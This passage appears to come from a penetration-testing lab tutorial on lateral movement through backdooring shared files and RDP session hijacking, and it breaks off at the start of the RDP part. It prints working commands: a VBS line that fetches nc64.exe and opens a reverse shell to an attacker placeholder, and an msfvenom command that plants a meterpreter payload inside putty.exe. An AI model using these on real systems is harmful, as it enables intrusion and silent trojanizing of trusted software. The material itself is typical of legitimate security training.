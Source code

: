 ```shell-session
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

This will copy nc64.exe from the share to the user's workstation `%tmp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

### Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, you can  download it from the share and use msfvenom to inject a backdoor into  it. The binary will still work as usual but execute an additional  payload silently. To create a backdoored putty.exe, we can use the  following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter  payload without the user noticing it. Once the file has been generated,  we can replace the executable on the windows share and wait for any  connections using the exploit/multi/handler module from Metasploit.

## RDP hijacking

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the  server indefinitely. If you have SYSTEM privileges on Windows Server  2016 and earlier, you can take over any existing RDP session without  requiring a password.

If we have administrator-level access, we can get SYSTEM by any  method of our preference. For now, we will be using psexec to do so.  First, let's run a cmd.exe as administrator:

![Run as administrator](assets/7ba63227fb9d7244d5814b0e4fd57793.png)

From there, run `PsExec64.exe`(available at `C:\tools\`):

```shell-session
PsExec64.exe -s cmd.exe
```

To list the existing sessions on a server, you can use the following command:

